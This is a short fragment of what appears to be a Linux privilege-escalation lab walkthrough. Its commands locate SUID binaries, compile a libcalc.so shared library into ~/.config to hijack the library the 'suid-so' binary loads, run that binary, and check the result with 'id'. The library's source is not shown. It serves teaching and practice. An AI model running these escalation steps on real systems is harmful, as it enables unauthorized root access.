 
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Save the file as libcalc.c
In command prompt type:

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

In command prompt type: 

```bash
/usr/local/bin/suid-so
```

In command prompt type: id 

```bash
id
```
